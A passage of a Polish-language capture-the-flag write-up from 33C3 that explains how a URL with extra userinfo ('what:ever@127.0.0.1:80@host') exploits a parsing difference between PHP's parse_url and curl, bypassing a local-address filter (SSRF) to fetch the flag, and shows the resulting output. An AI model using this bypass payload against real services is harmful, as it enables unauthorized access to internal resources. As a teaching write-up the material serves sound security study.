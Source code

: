 ```php
		if ($status >= 301 and $status <= 308) {
			$url = curl_getinfo($curl, CURLINFO_REDIRECT_URL);
		} else {
			return $data;
		}

	} while (1);
}
```

Ta funkcja wydaje się blokować dowolny lokalny adres, więc nie możemy pobrać lokalnego pliku z flagą.
Trik polega na tym, że IP jest sprawdzane funkcją PHP `parse_url`, podczas gdy samo pobranie pliku za pomocą curl.

Pamiętamy, że niedawno podobna podatność była wykorzystana już na CTFie.
Funkcja PHP nie parsuje URL poprawnie jeśli podamy tam username i password.
Jeśli podamy URL `http://what:ever@127.0.0.1:80@33c3ctf.ccc.ac/reeeaally/reallyy/c00l/and_aw3sme_flag`

PHP odczyta to jako:

```
array (
  'scheme' => 'http',
  'host' => '33c3ctf.ccc.ac',
  'user' => 'what',
  'pass' => 'ever@127.0.0.1:80',
  'path' => '/reeeaally/reallyy/c00l/and_aw3sme_flag',
)
```

Więc założy że odpytujemy hosta `33c3ctf.ccc.ac` i żaden z testów CIDR nas nie zablokuje.
Jednak curl odczyta to inaczej i user to `what`, hasło to `ever` a host to `127.0.0.1:80`, czyli dokładnie to czego nam potrzeba.

Finalnie dla takiego avatara dostajemy:

```
Does this look like an image to you???????? people are dumb these days...

33C3_w0w_is_th3r3_anything_that_php_actually_gets_right?!??? 
```
